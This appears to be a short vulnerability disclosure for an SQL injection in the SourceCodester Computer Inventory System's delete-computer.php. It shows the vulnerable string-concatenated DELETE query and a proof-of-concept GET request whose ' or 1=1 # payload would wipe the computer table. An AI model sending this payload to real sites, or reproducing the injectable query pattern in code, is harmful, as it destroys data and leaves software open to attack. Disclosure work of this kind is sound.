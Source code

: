 # SOURCECODESTER / Computer Inventory System - delete-computer.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17165/computer-inventory-system-using-php-and-mysql-source-code.html
> 
## Affected Component
> /endpoint/delete-computer.php

## Code
```php
        $query = "DELETE FROM tbl_computer WHERE tbl_computer_id = '$computer'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /endpoint/delete-computer.php?computer=1'+or+1%3d1+%23 HTTP/1.1
Host: 
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/208c7f2f-c5c3-46e6-a96d-2f33ef67a6a1)
